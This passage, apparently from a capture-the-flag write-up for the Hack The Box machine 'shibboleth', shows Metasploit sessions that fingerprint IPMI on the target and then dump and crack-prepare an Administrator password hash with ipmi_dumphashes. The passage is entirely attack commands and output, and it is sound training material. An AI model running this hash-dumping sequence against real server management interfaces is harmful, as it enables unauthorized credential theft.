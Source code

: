 ```bash
Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf6 auxiliary(scanner/ipmi/ipmi_version) > setg RHOSTS shibboleth.htb
RHOSTS => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```bash
msf6 > use 1
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   CRACK_COMMON          true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                      no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                         no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS                shibboleth.htb                                                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 623                                                                yes       The target port
   SESSION_MAX_ATTEMPTS  5                                                                  yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                                                  yes       Delay between session retries in seconds
   THREADS               1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:b5b40a7082090000a49188fc8d3a51f3e73bab9854a4a34bbfe133a72e35d643946d9cbba1fbe1a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:ddc315e4a5b763cc628d35359594696e325594d1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
